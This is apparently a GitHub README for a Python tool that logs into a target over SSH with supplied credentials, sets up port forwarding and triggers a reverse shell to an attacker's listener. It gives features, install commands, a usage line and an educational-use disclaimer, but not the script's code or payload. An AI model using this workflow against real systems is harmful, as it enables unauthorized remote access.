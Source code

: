 # Remote SSH Reverse Shell Executor

> ⚠️ **Disclaimer:** This tool is intended for educational and authorized penetration testing purposes only. Unauthorized access to systems is illegal.

## 📌 Description

A Python script to automate SSH port forwarding and trigger a reverse shell on the target machine via Paramiko. It uses SSH credentials to connect to the remote host, sets up port forwarding, and then executes a reverse shell payload.

---

## ✍️ Author

- **Name:** Uday  
- **X (Twitter):** [@udaypro2008](https://x.com/udaypro2008)  
- **GitHub:** [ExtremeUday](https://github.com/ExtremeUday)  
- **HackTheBox:** ExtremeUday2

---

## ⚙️ Features

- SSH login using username & password
- Port forwarding from remote to local (binds to `localhost:2222`)
- Executes reverse shell back to attacker's machine
- Uses `paramiko` for SSH connection and command execution

---

## 📥 Requirements

- Python 3.x
- `paramiko` module
- `sshpass` installed on system

Install Python dependencies:
```bash
pip install paramiko
sudo apt install sshpass
```
---
## 🚀 Usage
```
python3 ssh_reverse_shell.py -ip <TARGET_IP> -user <USERNAME> -passwd <PASSWORD> -lhost <LOCAL_HOST> -lport <LOCAL_PORT>
```
---

## 📡 How it Works

- Sets up port forwarding from target to your machine via SSH.
- Waits 2 seconds to stabilize the connection.
- Connects to the forwarded port (127.0.0.1:2222) via Paramiko.
- Executes a reverse shell payload targeting your listener.

## 🛡️ Legal Notice

- This project is for educational purposes only. Do not use it on any system without explicit permission. The author is not responsible for any misuse or damage caused by this script.

---

## 📂 File Structure
```
.
├── ssh_reverse_shell.py   # Main script
└── README.md              # Project info
```

